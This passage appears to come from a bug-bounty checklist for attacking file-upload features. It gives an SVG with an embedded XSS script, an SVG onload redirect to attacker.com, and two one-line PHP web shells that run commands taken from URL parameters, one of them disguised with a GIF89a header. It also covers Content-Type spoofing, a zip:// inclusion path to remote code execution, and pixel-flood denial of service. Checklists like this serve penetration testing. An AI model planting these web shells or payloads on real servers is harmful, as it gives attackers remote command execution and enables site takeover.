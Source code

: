       ```xml
      <?xml version="1.0" standalone="no"?>
      <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

      <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
         <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
         <script type="text/javascript">
            alert("HolyBugx XSS");
         </script>
      </svg>
      ```
  *   [ ] Open Redirect

      1. Upload using `.svg` file

      ```xml
      <code>
      <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
      <svg
      onload="window.location='https://attacker.com'"
      xmlns="http://www.w3.org/2000/svg">
      <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
      </svg>
      </code>
      ```
* Content-ish Bypass
  * [ ] Content-type validation
    * Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
  *   [ ] Content-Length validation

      * Small PHP Shell

      ```php
      (<?=`$_GET[x]`?>)
      ```
  *   [ ] Content Bypass Shell

      * If they check the Content. Add the text "GIF89a;" before you shell-code. ( `Content-type: image/gif` )

      ```php
      GIF89a; <?php system($_GET['cmd']); ?>
      ```
* Misc
  * [ ] Uploading `file.js` & `file.config` (web.config)
  * [ ] Pixel flood attack using image
  * [ ] DoS with a large values name: `1234...99.png`
  * [ ] Zip Slip
    * If a site accepts `.zip` file, upload `.php` and compress it into `.zip` and upload it. Now visit, `site.com/path?page=zip://path/file.zip%23rce.php`
  *   [ ] Image Shell

      * Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file `mv pic.jpg pic.php.jpg`
